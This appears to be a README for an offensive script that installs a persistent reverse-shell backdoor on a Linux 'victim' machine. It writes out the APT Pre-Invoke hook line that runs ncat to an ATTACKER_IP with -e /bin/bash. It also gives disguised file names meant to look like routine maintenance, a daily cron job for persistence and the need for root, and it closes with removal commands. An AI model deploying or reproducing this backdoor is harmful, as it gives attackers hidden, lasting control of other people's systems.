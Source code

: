 # Overview
This script creates a persistent reverse shell backdoor on a victim's Linux machine using the apt-get system and cron. It takes advantage of routine system commands to ensure that the backdoor remains active and accessible.

## How It Works
1. APT Hook:
The script sets up a configuration file for the Advanced Packaging Tool (APT) system, specifically for apt-get update.
It uses the APT::Update::Pre-Invoke directive to run a reverse shell command before apt-get update executes. This command connects back to the attacker's machine, allowing remote access to the victim's shell.
The command is:
```APT::Update::Pre-Invoke {"nohup ncat \${ATTACKER_IP} \${ATTACKER_PORT} -e /bin/bash 2> /dev/null &"};```
The nohup command ensures that the reverse shell remains open even if the terminal session is closed.

2. Daily Cron Job:
A secondary script is created and made executable. This script is scheduled to run daily via a cron job.
The cron job ensures that the reverse shell remains active by regularly running the script, even if the APT hook is not triggered or is removed.

## Components
APT Hook Configuration:
Located in /etc/apt/apt.conf.d/99-system-maintenance
Executes the reverse shell command before apt-get update.

Persistent Script:
Located at /usr/local/bin/daily_update.sh
Runs the reverse shell command and is executed daily by the cron job.

Cron Job:
Configured to run the script daily at midnight.
Located in /etc/cron.d/daily_update

## Summary
Reverse Shell via APT Hook: This method leverages the frequent use of apt-get update to execute a reverse shell command, making it less noticeable.
Persistence with Cron: The cron job ensures the reverse shell remains active by running the script daily, even if the APT hook is disrupted.

## Note
Root Privileges Required: This script must be run as root to ensure it can create the necessary files and set up the cron job properly.

## Removal Instructions
To remove the APT hook:
``rm -f /etc/apt/apt.conf.d/99-system-maintenance``

To remove the cron job:
``rm -f /etc/cron.d/daily_update``
